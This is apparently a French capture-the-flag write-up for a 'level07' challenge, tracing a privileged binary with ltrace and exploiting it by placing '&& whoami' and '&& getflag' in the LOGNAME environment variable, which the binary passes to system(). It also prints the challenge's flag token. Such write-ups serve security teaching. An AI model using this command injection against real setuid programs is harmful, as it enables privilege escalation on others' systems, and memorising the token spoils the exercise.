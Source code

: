 On trouve dans le dossier **home** un binaire ./level07, qui, si on le lance nous affiche un message :
<pre><code>> ./level07
level07</code></pre>

On cherche à savoir ce que le binaire fait, pour cela on utilise **ltrace** :
<pre><code>> ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff7f4, 0x80485b0, 0x8048620
getegid()= 2007
geteuid()= 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)= 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)= 0
getenv("LOGNAME")= "level07"
asprintf(0xbffff744, 0x8048688, 0xbfffff62, 0xb7e5ee55, 0xb7fed280)= 18
system("/bin/echo level07 "level07
--- SIGCHLD (Child exited) ---
<... system resumed> )= 0
+++ exited (status 0) +++
</code></pre>

On observe que le binaire fait un **getenv** et appelle **system** pour faire un **echo**

On fait un <code>env</code> pour voir la varibale **LOGNAME** :
<pre><code>> env
...
LOGNAME=level07
...
</code></pre>

On tente de faire une injection avec un <code>whoami</code> pour verifier que l'injection fonctionne, mais aussi pour connaître les droits avec lesquels le binaire est lancé

<pre><code>> LOGNAME="&& whoami"
> ./level07
flag07
</code></pre>

>On observe **flag07**, ce qui veut dire que nous pouvons faire un **getflag**

<pre><code>> LOGNAME="&& getflag"
> ./level07

Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
</code></pre>

